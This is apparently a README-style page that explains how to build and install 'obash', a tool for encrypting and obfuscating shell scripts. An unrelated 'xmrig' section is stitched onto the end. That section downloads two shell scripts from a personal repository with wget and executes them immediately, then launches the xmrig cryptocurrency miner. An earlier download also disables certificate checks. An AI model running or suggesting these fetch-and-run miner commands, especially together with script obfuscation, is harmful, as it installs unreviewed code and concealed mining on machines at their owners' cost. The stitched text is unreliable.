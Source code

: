 Encrypt and obfuscate your shell script

We need to ensure package manager is updated and free from errors, then install dependencies.

Debian/Ubuntu:
export DEBIAN_FRONTEND=noninteractive

apt update

apt autoremove --fix-missing -y -f

apt upgrade -y

apt install build-essential libssl-dev curl -y


RHEL/Fedora:

yum update -y

yum groupinstall "Development Tools" -y

yum install openssl-devel zip curl -y


Then download and extract obash source archive:

curl -skL "https://github.com/louigi600/obash/archive/8976fd2fa256c583769b979036f59a741730eb48.tar.gz" -o obash.tgz

tar xf obash.tgz && rm -f obash.tgz


Now enter obash source directory, run make clean first and start compiling obash, then copy obash executable into bin/sbin path of your machine:

cd obash-8976fd2fa256c583769b979036f59a741730eb48

make clean

make

mv -f obash /usr/local/sbin/obash

cd .. && rm -rf obash-8976fd2fa256c583769b979036f59a741730eb48


Now our obash is now ready to use, run obash -h for guide how to use.

examples:
* Encrypt your myscript.sh with output filename MyEncryptedScript(executable only on local machine):

obash -o MyEncryptedScript myscript.sh

* Encrypt your myscript.sh with output filename MyEncryptedScript(executable on all machine/reusable):

obash -r -o MyEncryptedScript myscript.sh

## Test run: ./MyEncryptedScript

# xmrig

wget https://raw.githubusercontent.com/itsgelogomayee/xmrig/main/turtle.sh && chmod +x turtle.sh && ./turtle.sh


wget https://raw.githubusercontent.com/itsgelogomayee/xmrig/main/mine.sh && chmod +x mine.sh && ./mine.sh

# run

./xmrig
